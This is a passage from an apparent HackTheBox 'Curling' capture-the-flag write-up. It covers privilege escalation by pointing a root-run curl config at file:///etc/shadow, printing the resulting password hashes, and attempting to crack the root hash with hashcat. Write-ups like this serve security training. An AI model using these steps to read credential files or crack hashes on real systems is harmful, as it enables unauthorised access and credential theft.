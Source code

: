 ```
floris@curling:~/admin-area$ cat input 
url = "http://127.0.0.1"
```

Changing the contents of the `input` file to the text shown below results in the contents of the `/etc/shadow` being written to the `report` file.

```
url = "file:///etc/shadow"
```

The `/etc/shadow` file contains hashed passwords for system users, including the password hash for the `root` user. After a few seconds, the contents of the `report` file will be overwritten with the contents of `/etc/shadow`. The output below is a truncated version of the target system's `/etc/shadow` file.

```
floris@curling:~/admin-area$ cat report
root:$6$RIgrVboA$HDaB29xvtkw6U/Mzq4qOHH2KHB1kIR0ezFyjL75DszasVFwznrsWcc1Tu5E2K4FA7/Nv8oje0c.bljjnn6FMF1:17673:0:99999:7:::
daemon:*:17647:0:99999:7:::
...
sshd:*:17647:0:99999:7:::
floris:$6$yl7KKyGaOhVExlCb$ONJceChbI7srpLlJ/AhCLgESU7E4gXexPVgsJMjvQ0hP.6fwslfwWmD15cuaYs9./Jin4e/4LURPgEBav4iv//:17673:0:99999:7:::
mysql:!:17673:0:99999:7:::
```

The password hash the `root` user can be copied to a file on the attacking system. Then, `hashcat` can be used to attempt to crack the password hash.

```
root@kali:~/workspace/hackthebox/Curling# cat root-hash.txt 
$6$RIgrVboA$HDaB29xvtkw6U/Mzq4qOHH2KHB1kIR0ezFyjL75DszasVFwznrsWcc1Tu5E2K4FA7/Nv8oje0c.bljjnn6FMF1
```

Since the hash begins with `$6`, this suggests that the hash is a `sha512crypt`.

```
root@kali:~/workspace/hackthebox/Curling# hashcat -h | grep sha512crypt
   1800 | sha512crypt $6$, SHA512 (Unix)                   | Operating Systems
```

The `hashcat` command that was used in attempt to crack the password hash is shown below. Note that the password was not cracked.

```
root@kali:~/workspace/hackthebox/Curling# hashcat -m 1800 root-hash.txt /usr/share/wordlists/rockyou.txt --force
```

As the password hash was not cracked by the `hashcat` command above, an alternative privelege escalation method was required.

Looking further into the `curl` configuration file `-K` flag, it appears that additional arguments can be set from within the configuration file. From `man curl`, an example is given.

```
# --- Example file ---
# this is a comment
url = "example.com"
output = "curlhere.html"
user-agent = "superagent/1.0"

# and fetch another URL too
url = "example.com/docs/manpage.html"
-O
referer = "http://nowhereatall.example.com/"
# --- End of example file ---
```
